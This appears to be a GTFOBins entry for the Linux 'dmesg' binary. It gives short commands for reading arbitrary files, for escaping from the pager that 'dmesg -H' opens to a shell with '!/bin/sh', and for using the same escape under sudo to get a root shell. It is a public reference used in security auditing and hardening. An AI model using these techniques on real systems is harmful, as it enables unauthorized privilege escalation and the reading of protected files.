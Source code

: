 ```yaml
---
functions:
  file-read:
    - description: This is not suitable for binary files.
      code: |
        LFILE=file_to_read
        dmesg -rF "$LFILE"
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        dmesg -H
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo dmesg -H
        !/bin/sh
---
```

